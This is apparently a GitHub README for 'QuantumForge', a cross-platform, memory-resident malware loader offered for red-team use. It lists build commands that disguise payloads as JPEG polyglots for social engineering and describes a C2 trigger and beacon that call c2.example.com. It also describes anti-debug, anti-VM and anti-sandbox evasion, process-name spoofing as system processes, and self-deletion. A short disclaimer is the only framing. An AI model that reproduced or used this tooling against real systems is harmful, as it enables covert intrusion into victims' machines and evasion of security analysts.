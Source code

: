 # QuantumForge 🔬🧠

> **Cross-Platform, Memory-Resident Payload Framework**  
> _Polymorphic | AES+HKDF Encrypted | DNS-over-HTTPS Trigger | No Disk Writes_

---

## 🛡️ DISCLAIMER

**For educational and authorized red team engagements only.**  
Use of this code without proper authorization may violate laws and ethical guidelines.  
**You are responsible for your actions.**

---

## 🧬 Overview

**QuantumForge** is an advanced post-exploitation loader framework with the following goals:

- **Cross-platform compatibility** (Linux, macOS, Windows)
- **In-memory execution** only (no disk writes)
- **Polymorphic, self-modifying loader**
- **AES-256-CBC + HKDF** payload encryption
- **Modular second-stage loading**:
  - Shellcode
  - Reflective `.so`/`.dll` injection (stage2)
- **C2 trigger via DNS-over-HTTPS**
- **Beaconing via HTTPS POST**
- **Static and behavioral anti-analysis defenses**

---

## 💻 Supported Platforms

| Platform | Loader | Features |
|----------|--------|----------|
| Linux 🐧 | `quantum_server` | `memfd_create`, `dlopen` second-stage, anti-debug, anti-vm |
| Windows 🪟 | `quantum_loader_win.exe` | Reflective DLL (planned), Bcrypt AES, WinHttp beacon |
| macOS 🍎 | `quantum_loader_mac` | `mach_vm_allocate` shellcode exec, CCCrypt AES, curl beacon |

---

## ⚙️ Features

- 🔐 **AES-256-CBC + HKDF** encryption (OpenSSL / Bcrypt / CCCrypt)
- 🔁 **XOR-masked memory** post-decryption
- 🧠 **Polymorphic payloads** with randomized NOP sleds (`junk.h`)
- 📡 **DNS-over-HTTPS activation trigger**
- 📤 **HTTPS beaconing** (base64-encoded POST)
- 🔄 **Second-stage loader**:
  - Linux: `dlopen()` from `memfd_create`
  - Windows: Reflective loader (stub included)
  - macOS: Shellcode (Mach-O loader optional)
- 🧨 **Self-delete & unlink** logic
- 🕵️‍♂️ **Anti-debug, anti-vm, anti-sandbox** (RDTSC, sysctl, CPUID, etc)
- 🖼️ **JPEG polyglot** creation for social engineering
- 🔒 **Section scrubbing + mprotect(PROT_NONE)** to erase decrypted data
- 🎭 **Process name spoofing** (`[kworker]`, `svchost.exe`, `launchd`)

---

## 🧪 Usage

1️⃣ Build Linux Payload

```bash
./quantum_forge.sh cat.jpg payload.bin 00112233445566778899aabbccddeeff 0123456789abcdef
Output: cat.jpg (JPEG+ELF polyglot)
```
2️⃣ Build Windows Payload
```powershell
.\quantum_forge_win.ps1 -Image "cat.jpg" -Payload "win_payload.bin" `
  -BaseKey "QuantumKey123456" -Salt "FixedSalt456" -IV "1234567890abcdef"
Output: cat.jpg (JPEG+EXE polyglot)
```
3️⃣ Build macOS Payload
```bash
./quantum_forge_mac.sh cat.jpg payload_macos.bin QuantumKey123 FixedSalt456 1234567890abcdef
Output: cat.jpg (JPEG+Mach-O polyglot)
```
###  🔫 Runtime Flags
Flag	Description
--no-doh	Skip DNS-over-HTTPS activation
--no-selfdelete	Do not delete the binary after execution
--fallback-only	Serve payload over HTTP on port 8080 only


### 🛰️ C2 Trigger + Beacon (DNS-over-HTTPS)
Trigger payload execution remotely:
TXT record for c2.example.com:
"C2_TRIGGER:1"
Beacon is sent via POST https://c2.example.com/beacon
Payload: base64-encoded shellcode or second-stage blob.


###  🔍 Analysis Evasion
Technique	Description
junk.h	Random instructions for each build (nop, mov, lea, etc.)
Section renaming	Random .text section name per build
Memory wiping	mprotect(PROT_NONE) and scramble_self() to zero disk image
Anti-debug	Checks TracerPid, ptrace, or Win NtQueryInformationProcess
Anti-vm	CPUID vendor string check (e.g. KVMKVMKVM, VMwareVMware)
Anti-sandbox	Sleep delta check using RDTSC or high-precision timers


### 🧩 Second-Stage Support

QuantumForge supports modular payloads:

| Type                | Linux                       | Windows              | macOS                        |
|---------------------|-----------------------------|----------------------|------------------------------|
| Shellcode           | ✅                          | ✅                   | ✅                           |
| ELF binary          | ✅ `exec_memfd()`           | ❌                   | ❌                           |
| Shared object (.so) | ✅ via `dlopen("/proc/self/fd")` | ❌ *(planned)*     | ❌                           |
| Reflective DLL (.dll) | ❌                        | 🚧 *(stub included)* | ❌                           |
| Mach-O dylib        | 🚧 *(planned)*              | ❌                   | 🚧 *(planned via custom loader)* |

---
### 🧷 Notes
Payload encryption is never stored in plaintext on disk.

All second-stage logic executes entirely in memory.

Polyglot payloads will open as JPEGs when inspected by analysts or tools.


## 🧨 Warning
This project is a powerful binary obfuscation and delivery framework.
Do not use it without legal authorization. Abuse will not be tolerated or supported.

---
## 📜 License
MIT License for research and educational use.






